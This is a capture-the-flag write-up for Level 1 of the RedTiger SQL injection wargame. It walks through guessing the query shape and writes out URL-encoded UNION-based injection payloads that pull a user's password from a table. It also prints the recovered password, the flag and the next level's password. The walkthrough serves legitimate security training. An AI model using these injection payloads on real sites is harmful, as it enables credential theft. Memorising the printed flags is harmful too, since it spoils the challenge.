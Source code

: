 ## Level 1

**URL:** https://redtiger.labs.overthewire.org/level1.php
**Target:** Get the login for the user Hornoxe
**Tablename:** level1_users

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502022328468.png" alt="image-20200502022328468" style="border:1px solid black;" />



Clicking on category 1 sent the value 1 to parameter "cat", and presented additional text. This might indicate a potential SQLi attack.

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502022636412.png" alt="image-20200502022636412" style="border:1px solid black;" />

<center> ?cat=1



I figured that the SQL query might look similar to this, where `[cat]` can be defined by me:

```sql
SELECT ?,?,... 
FROM ... 
WHERE cat=[cat] ... ;
```

I decided to use the `UNION` function to plot the requested password. For that to work, I wanted to bring the query to the following form:

```sql
SELECT ?,?,... 
FROM ... 
WHERE cat=1 
UNION 
SELECT password 
FROM level1_users; -- ...
```

I set `[cat]` to be `1 UNION SELECT password FROM level1_users; --` (adding "; -- " to make sure the rest of the query is ignored in case it exists).

The problem was I did not know how many columns the table has. I started adding columns to the selection until I reached the right number (4):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502023938850.png" alt="image-20200502023938850" style="border:1px solid black;" />

<center>?cat=1%20UNION%20SELECT%20password,2,3,4%20FROM%20level1_users;%20--



I could tell that columns 3 and 4 are presented to the user, so I made sure the column "password" is selected third:

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502024312259.png" alt="image-20200502024312259" style="border:1px solid black;" />

<center> cat=1%20UNION%20SELECT%201,2,password,4%20FROM%20level1_users;%20



And there it was! I used the password (**thatwaseasy**) to receive the flag (**27cbddc803ecde822d87a7e8639f9315**) and the password for Level 2 (**passwords_will_change_over_time_let_us_do_a_shitty_rhyme**):

<img src="C:\Users\royo\AppData\Roaming\Typora\typora-user-images\image-20200502024653899.png" alt="image-20200502024653899" style="border:1px solid black;" />